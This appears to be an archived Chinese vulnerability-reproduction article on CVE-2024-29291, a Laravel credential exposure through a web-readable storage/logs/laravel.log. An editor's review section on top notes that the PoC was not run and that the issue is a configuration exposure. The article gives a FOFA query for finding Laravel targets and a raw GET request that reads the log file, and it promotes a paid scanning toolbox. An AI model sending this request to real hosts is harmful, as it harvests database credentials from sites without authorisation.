



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：笼统Laravel8至11，缺具体组件变更与固定版本；需storage路径可经Web访问且日志包含凭据

代码与实验材料：单GET /storage/logs/laravel.log，结果仅图；没有正常public文档根目录/配置对照

来源证据范围：南风2025-05-14，无厂商公告/修复patch，工具指向知识星球

- **适用与权限边界（1）**：配置风险被描述为全框架版本漏洞；依据：读取日志需错误暴露storage、日志实际含秘密；未证明默认部署可读或框架代码缺陷。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：修复建议缺实际根因措施；依据：仅升级最新版，未解决Web根目录/日志访问和敏感内容记录；无固定版本支持升级即修复结论。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  Laravel Framework 8到11版本存在敏感信息泄露漏洞CVE-2024-29291 附POC   
2025-5-14更新  南风漏洞复现文库   2025-05-14 14:56  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Laravel Framework 8到11版本简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Laravel Framework 8 到 11版本  
## 2.漏洞描述  
  
Laravel Framework是Taylor Otwell个人开发者的一款基于PHP的Web应用程序开发框架。Laravel Framework 8 到 11版本存在安全漏洞，该漏洞源于允许远程攻击者发现 storage/logs/laravel.log 中的数据库凭据。  
  
CVE编号:CVE-2024-29291  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Laravel Framework 8 到 11版本  
  
  
Laravel Framework 8到11版本存在敏感信息泄露漏洞  
## 4.fofa查询语句  
  
app="Laravel-Framework"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.xx/storage/logs/laravel.log  
  
漏洞数据包：  
```
GET /storage/logs/laravel.log HTTP/1.1
Host: xxx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
## 7.整改意见  
  
建议您更新当前系统或软件至最新版，完成漏洞的修复。  
## 8.往期回顾  
  
  
   
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
